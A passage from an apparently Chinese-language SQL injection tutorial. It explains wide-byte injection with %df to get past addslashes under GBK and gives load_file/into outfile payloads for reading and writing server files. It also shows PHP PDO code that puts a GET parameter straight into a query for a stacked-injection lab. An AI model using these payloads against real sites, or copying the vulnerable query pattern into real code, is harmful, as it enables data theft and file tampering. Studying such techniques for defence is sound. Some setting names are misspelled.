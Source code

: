 ```php

```

源码第7行：

```php
$id = addslashes($_GET['id']);
```

对参数id进行了转义

受过滤函数 (magic_quotes_gqc 的参数为ON）所有的单引号，双引号都被转义(GBK编码-MYSQL默认)

原理：

php.ini配置文件中如果开启了magic_quotes_gqc，所有输入的```'```前面都会自动添加一个```\```对单引号进行转义

在GBK编码中```\```的编码为%5c,我们可以在输入单引号前添加%df,%df%5c构成繁体字```連```

例如：

```
http://127.0.0.1/sql/kuanzifu.php?id=1%df'
```





服务器文件进行读写操作

条件：

1.知道远程目录

2.该目录需要写权限

3.数据库开启sceure_file_priv=‘ ’show（php.ini）

注入代码：

```sql
1' union select 1,load_file('c:/test.txt') # 
```

```sql
1' union select 1,'123456' into outfile 'c:/test2.txt' # 
```

#### 9.堆叠注入

源码分析：

```php
<?php
try {
    $conn = new PDO("mysql:host=localhost;dbname=test", "root", "root");//连接数据库，初始化一个pdo对象
    $conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);//设置一个属性
    $id = $_GET['id'];
    $sql = "select * from users where id=$id";
    echo "<hr />";
    echo "当前执行语句为：".$sql;
    echo "<hr />";

    $stmt = $conn->query($sql);

    $result = $stmt->setFetchMode(PDO::FETCH_ASSOC);
    foreach($stmt->fetchAll() as $k=>$v) {
        foreach ($v as $key => $value) {
            echo $value;
        }
    }
    $dsn = null;
}
catch(PDOException $e)
```